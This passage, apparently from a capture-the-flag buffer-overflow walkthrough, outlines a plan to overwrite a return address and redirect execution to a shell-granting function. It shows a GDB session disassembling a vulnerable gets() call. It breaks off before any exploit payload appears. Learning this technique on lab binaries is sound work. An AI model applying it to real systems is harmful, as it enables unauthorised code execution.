 We see this basically will grant us shell 

Now here's what i'm going to do 

```
1. Get the offset (the amount of bytes needed to reach the rip)
2. Overwrite the return address to call the shell function
3. Craft the exploit
```

Now lets hop on to gdb to get the offset

I'll set a breakpoint immediately after the call to get and run it giving `1234567890` as input

```
┌──(venv)─(mark㉿haxor)-[~/Documents/Pentest/BOF/03-begineer_bof]
└─$ gdb -q chall         
GEF for linux ready, type `gef' to start, `gef config' to configure
90 commands loaded and 5 functions added for GDB 12.1 in 0.01ms using Python engine 3.11
Reading symbols from chall...
(No debugging symbols found in chall)
gef➤  disass hax
Dump of assembler code for function hax:
   0x0000000000401221 <+0>:     endbr64 
   0x0000000000401225 <+4>:     push   rbp
   0x0000000000401226 <+5>:     mov    rbp,rsp
   0x0000000000401229 <+8>:     sub    rsp,0x30
   0x000000000040122d <+12>:    lea    rax,[rip+0xdd8]        # 0x40200c
   0x0000000000401234 <+19>:    mov    rdi,rax
   0x0000000000401237 <+22>:    mov    eax,0x0
   0x000000000040123c <+27>:    call   0x401090 <printf@plt>
   0x0000000000401241 <+32>:    lea    rax,[rbp-0x30]
   0x0000000000401245 <+36>:    mov    rdi,rax
   0x0000000000401248 <+39>:    mov    eax,0x0
   0x000000000040124d <+44>:    call   0x4010b0 <gets@plt>
   0x0000000000401252 <+49>:    nop
   0x0000000000401253 <+50>:    leave  
   0x0000000000401254 <+51>:    ret    
End of assembler dump.
gef➤  b *0x0000000000401253
Breakpoint 1 at 0x401253
gef➤  r
Starting program: /home/mark/Documents/Pentest/BOF/03-begineer_bof/chall 
[*] Failed to find objfile or not a valid file format: [Errno 2] No such file or directory: 'system-supplied DSO at 0x7ffff7fc9000'
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".
Pop Shell Buddy
Hey wait who are you: 1234567890

Breakpoint 1, 0x0000000000401253 in hax ()















```